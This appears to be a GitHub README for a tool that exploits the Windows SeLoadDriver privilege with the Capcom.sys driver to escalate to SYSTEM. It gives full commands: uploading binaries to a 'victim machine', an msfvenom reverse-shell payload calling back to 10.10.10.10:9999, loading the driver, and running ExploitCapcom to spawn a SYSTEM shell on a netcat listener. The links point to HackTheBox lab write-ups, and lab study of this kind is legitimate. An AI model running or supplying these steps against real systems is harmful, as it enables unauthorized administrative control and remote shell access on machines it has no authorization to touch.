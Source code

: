 # SeLoadDriverAbuse

Pre-compiled binaries to exploit SeLoadDriver privilege using Capcom.sys driver for privilege escalation in x64 based Windows Systems.

Upload the two binaries along with the Capcom.sys driver to the victim machine.

The ExploitCapcom binary is hardcoded to execute a binary named `shell.exe` from `C:\Windows\Tasks`.

Generate a reverse shell payload using msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=9999 -f exe -o shell.exe
```

Copy over the shell.exe revershell payload to `C:\Windows\Tasks`.

Load the driver:

```cmd
.\EoPLoadDriver.exe System\CurrentControlSet\dfserv C:\Windows\Tasks\Capcom.sys
```

Now run the exploit with nc listener:

```cmd
.\ExploitCapcom
```

The binary will execute shell.exe with administrative privileges and a shell with will be spawned on the netcat listener as `nt authority\system`.




---------------------------------------

Resources:

https://www.tarlogic.com/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

https://github.com/tandasat/ExploitCapcom

https://github.com/TarlogicSecurity/EoPLoadDriver/

https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys

https://0xdf.gitlab.io/2020/10/31/htb-fuse.html

https://youtu.be/VxbC03xmS60 (Ippsec HTB-Fuse).

